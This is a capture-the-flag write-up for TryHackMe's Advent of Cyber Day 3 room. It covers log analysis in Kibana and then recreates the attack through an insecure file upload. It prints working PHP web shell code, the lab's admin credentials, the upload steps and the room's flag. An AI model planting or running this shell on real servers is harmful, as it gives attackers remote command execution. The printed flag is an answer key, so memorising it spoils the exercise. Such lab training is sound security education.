



# **TryHackMe Writeup: Day 3 - Log Analysis**

## **Overview**
- **Room Name**: Advent of Cyber - Day 3
- **Difficulty**: Easy
- **Category**: Log Analysis and Web Exploitation
- **Objective**: Investigate a web attack using log analysis tools and exploit a vulnerability to retrieve the flag.

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [Conclusion](#conclusion)

---

## **Introduction**
Day 3 focuses on investigating a web attack using the ELK stack (Elasticsearch, Logstash, Kibana) and exploiting a vulnerability to achieve Remote Code Execution (RCE). The task is divided into two parts:
- **Operation Blue**: Use Kibana to analyze logs and track the attack.
- **Operation Red**: Recreate the attack by exploiting an insecure file upload vulnerability to gain access to the system.

---

## **Enumeration**

### **Using Kibana for Log Analysis**
We used Kibana's Discover interface to analyze Apache2 logs for the WareVille Rails application.

1. Access Kibana at `http://10.10.24.97:5601/`.
2. Navigate to the **Discover** section under Analytics.
3. Select the index pattern `wareville-rails` to filter relevant logs.
4. Use Kibana Query Language (KQL) in the search bar for specific queries.

#### **Key Findings**
- **Where was the web shell uploaded?**
  - Path: `/media/images/rooms/shell.php`
  - Query used: `message: "shell.php"`
  - Logs revealed the file was uploaded at `frostypines.thm/media/images/rooms/shell.php`.
  

- **What IP address accessed the web shell?**
  - IP Address: `10.11.83.34`

---

## **Exploitation**

### **Understanding File Upload Vulnerabilities**
File uploads are common on websites but can be exploited if not properly secured. Attackers can upload malicious files, such as web shells, to execute commands on the server.

### **Exploiting RCE via File Upload**
1. Create a malicious PHP script (`shell.php`) with the following code:
   ```php
   <html><body><form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute"></form><pre><?php 
   if(isset($_GET['command'])) { system($_GET['command'] . ' 2>&1'); } ?>
   </pre></body></html>
   ```
2. Save the file as `shell.php`.
3. Log in to Frosty Pines Resort's website (`http://frostypines.thm`) using:
   - Username: `admin@frostypines.thm`
   - Password: `admin`
4. Navigate to the account section and upload `shell.php` as a room image (ensure you select "all files" from the dropdown box when uploading).
   

5. Execute the uploaded script at `frostypines.thm/media/images/rooms/shell.php`.

---

## **Post-Exploitation**

### **Retrieving the Flag**
1. Use the web shell to execute commands on the server:
   ```bash
   ls
   cat flag.txt
   ```
2. Extracted Flag:
   - `THM{Gl1tch_Was_H3r3}`
   

---

## **Conclusion**

Day 3 demonstrated how log analysis tools like ELK can help identify security incidents and how vulnerabilities like insecure file uploads can lead to severe consequences such as RCE.

### **Key Takeaways**
- Log analysis is crucial for identifying and responding to attacks.
- File upload vulnerabilities must be mitigated with proper validation and restrictions.
- Always sanitize and validate user inputs to prevent exploitation.